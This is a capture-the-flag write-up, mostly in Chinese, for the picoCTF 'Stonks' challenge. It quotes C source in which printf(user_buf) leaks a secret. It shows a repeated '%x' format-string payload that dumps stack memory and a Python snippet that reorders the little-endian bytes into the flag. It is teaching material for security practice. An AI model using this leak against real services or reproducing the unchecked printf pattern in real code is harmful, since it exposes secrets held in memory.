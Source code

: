 # Stonks

## Inforamtion

### Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 53437

### Hints

1. Okay, maybe I'd believe you if you find my API key.

## Solution

- 觀察原始碼 (source code)時會發現，`buy_stonks(Portfolio *p)` 中以下片段存在漏洞。
    ```c
    	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
    ```

- 其中最後一個 `printf(user_buf)` 存在 **Format String Vulnerability**，當使用者在 `scanf("%300s", user_buf)` 中輸入類似於"%d"、"%x"、"%p"等關鍵字時，會使得 `printf()` 回將其當作真正的關鍵字參數進行執行，可能導致資料洩漏的問題。
    - [CWE-134: Use of Externally-Controlled Format String](https://cwe.mitre.org/data/definitions/134.html)

- 可以發現題目目標(api)就存在於漏洞程式片段的上方區域，表示我們可以透過 **Format String Vulnerability** 將其資料洩漏出來。
    ```c
    if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
    ```

- 先想辦法觸發到該程式片段。
    ```sh
    Welcome back to the trading app!

    What would you like to do?
    1) Buy some stonks!
    2) View my portfolio
    1
    Using patented AI algorithms to buy stonks
    Stonks chosen
    What is your API token?
    ```

- 透過以下 payload 進行輸入，觸發 **Format String Vulnerability**，使得參數後方其他位置資料洩漏。
    ```
    %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x.....
    ```

- 獲取輸出的資料後，將其透過 ASCII 編碼的方法轉換為Text。
	- [Hex to ASCII Text String Converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

- 因為是 **little endian**的關係，需再將位置作轉置。
	```py
	#! /usr/bin/env python

	galf = 'ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52}'
	for i in range(0, len(galf)-1, 4):
		print(galf[i+3], galf[i+2], galf[i+1], galf[i],sep='',end='')
	# patch '}'
	print('}')
	```
